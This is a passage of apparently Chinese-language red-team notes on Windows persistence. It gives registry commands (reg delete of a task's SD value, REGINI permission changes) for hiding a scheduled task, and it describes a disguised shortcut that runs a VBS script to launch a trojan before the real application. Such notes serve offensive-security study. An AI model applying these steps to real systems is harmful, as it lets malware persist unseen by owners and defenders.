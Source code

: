 ```plaintext
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\npcapwatchdog
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\OneDrive Per-Machine Standalone Update Task
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\OneDrive Reporting Task-S-1-5-21-2973696153-3313763339-1684698060-1001
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\OneDrive Reporting Task-S-1-5-21-2973696153-3313763339-1684698060-1003
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\WpsUpdateLogonTask_123
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\WpsUpdateTask_123
```

删除指定任务的 SD 值。

```plaintext
PS C:\Users\123> REG QUERY 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineRelease'

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineRelease
    SD    REG_BINARY    01000480880000009800000000000000140000000200740004000000001018009F011F0001020000000000052000000020020000001014009F011F0001010000000000051200000000101800FF011F0001020000000000052000000020020000000024008900120001050000000000051500000099003FB10B0484C5CC736A64E9030000000000000102000000000005200000002002000001050000000000051500000099003FB10B0484C5CC736A6401020000
    Id    REG_SZ    {9F65D474-E8B9-4E11-A496-11BC8FC24F1E}
    Index    REG_DWORD    0x2
```

```bash
PS C:\Users\123> reg delete 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineRelease' /v SD /f
错误: 拒绝访问。
```

添加权限

```powershell
REGINI 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\MicrosoftEdgeUpdateTaskMachineRelease' [17 20]
```

[Win10 注册表无法保存对权限所作的更改拒绝访问\_无法保存对 waasmedicsvc 权限的更改\_周子青的博客-CSDN 博客](https://blog.csdn.net/qq_37674858/article/details/107876060)

### 2.2 ShortCut File (.lnk)⚒️

[RED TEAM Operator\_ Windows Persistence 06 - Shortcut Mods\_哔哩哔哩\_bilibili](https://www.bilibili.com/video/BV1DW4y1v725/?vd_source=2debf117b8b8f7d9793b4daac526786d)

模拟现有快捷方式，在打开时不影响正常应用还能触发木马，怎么做到的？

相当于直接新创建一个快捷方式，图标、文件名要与系统其他默认项一致，运行方式是最小化，防止弹出命令框。唯一不同的是要运行的目标 Taget 改成自定义的 vbs 脚本，脚本内先运行目标木马后运行正常应用。
